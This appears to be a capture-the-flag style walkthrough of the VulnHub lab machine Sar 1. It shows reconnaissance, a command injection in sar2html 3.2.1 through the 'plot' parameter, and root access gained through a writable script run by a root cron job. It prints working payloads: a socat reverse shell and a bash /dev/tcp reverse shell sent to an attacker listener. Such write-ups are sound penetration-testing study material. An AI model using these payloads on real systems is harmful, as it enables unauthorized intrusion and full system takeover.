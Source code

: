 ```yaml
---
title: VulnHub - Sar 1
author: ret2x
date: 2021-07-22 23:26:22 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, command injection]
image: 
    path: /assets/images/sar/front.png
---
```


**Description:** A linux machine hosting a version of sar2html vulnerable to Remote Command Execution. Taken advantage of a cron job misconfiguration was possible to gain root privileges.

**Author:** Love

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/sar-1,425/](https://www.vulnhub.com/entry/sar-1,425/)

## Information Gathering
### Host Discovery

We start discovering the taget machine on the local network.

```console
root@kali:~$ arp-scan -I vmnet1 192.168.179.1/24
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 192.168.179.1
WARNING: host part of 192.168.179.1/24 is non-zero
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.179.142 00:0c:29:88:c6:9e       VMware, Inc.
192.168.179.254 00:50:56:ea:a9:69       VMware, Inc.

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 3.242 seconds (78.96 hosts/sec). 2 responded
```

### Port Scanning

Identified our target, I proceed to perform a UDP and TCP port scan with unicornscan.

```console
root@kali:~$ us -mT -Iv -p1-65535 192.168.179.142 && us -mU -Iv -p1-65535 192.168.179.142
...
TCP open                    http[   80]         from 192.168.179.142  ttl 64
...
UDP open                 unknown[48088]         from 192.168.179.142  ttl 64
...
```

### Service Enumeration

After I do the service enumeration on port 80.

```console
root@kali:~$ nmap -n -sV -sC -p80 192.168.179.142 -oN service-enum.txt
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:88:C6:9E (VMware)
```

### Web Enumeration

I access to the web page and find the apache default page, then I look for the robots.txt file and find the **sar2HTML** name.

![](/assets/images/sar/screenshot-1.png)

![](/assets/images/sar/screenshot-2.png)

I request this resource and redirects me to your home page.

Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's database. 

![](/assets/images/sar/screenshot-3.png)

Then I look vulnerabilities for sar2html version 3.2.1, and found that it's vulnerable to Remote Command Execution.

```console
root@kali:~$ searchsploit sar2html 3.2.1
------------------------------------------------------------ ------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                   | php/webapps/47204.txt
------------------------------------------------------------ ------------------------
```

I transfer a copy of this exploit to my current directory and we see the proof of concept.

```console
root@kali:~$ searchsploit -m php/webapps/47204.txt
root@kali:~$ cat 47204.txt 
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In the web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

## Exploitation
### Remote Command Execution

I check the POC with curl and I can see that the **id** command is running, so it's vulnerable.

```console
root@kali:~$ curl -s "http://192.168.179.142/sar2HTML/index.php?plot=;id" | tr '>' '\n' | grep '</option' | tail -n +3 | head -n -2 | sed 's/<\/option//'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Getting a reverse shell**

I first set up a netcat listener on port 443, and then run the following socat instruction in the browser.

`http://192.168.179.142/sar2HTML/index.php?plot=;socat TCP4:192.168.179.1:443 EXEC:/bin/bash`

![](/assets/images/sar/screenshot-4.png)

As we can see, we have a reverse shell with limited privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.142] 36268
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sar:/var/www/html/sar2HTML$ uname -a
uname -a
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

**Cron Jobs Enumeration**

Enumerating the cron jobs in the crontab file, I find a cron job that runs the script **finally.sh** every five minutes in the /var/www/html/ directory.

```console
www-data@sar:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

## Privilege Escalation
### Cron Job

We list the contents of the directory **/var/www/html/** and we see the **finally.sh** script.

```console
www-data@sar:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 www-data www-data  4096 Oct 21  2019 .
drwxr-xr-x 4 www-data www-data  4096 Oct 21  2019 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Oct 20  2019 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh
```

We see the content of the **finally.sh** script, this is executing the **write.sh** script and this is creating the gateway file in the /temp directory.

```console
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
```

As we have write permissions in the **write.sh** script, let's write a bash reverse shell to that file.

```console
www-data@sar:/var/www/html$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.179.1/4545 0>&1'" >> write.sh 
```

Then set up a netcat listener on port 4545 and after five minutes we get a root shell.

```console
root@kali:~$ nc -vlnp 4545
listening on [any] 4545 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.142] 45282
bash: cannot set terminal process group (3018): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
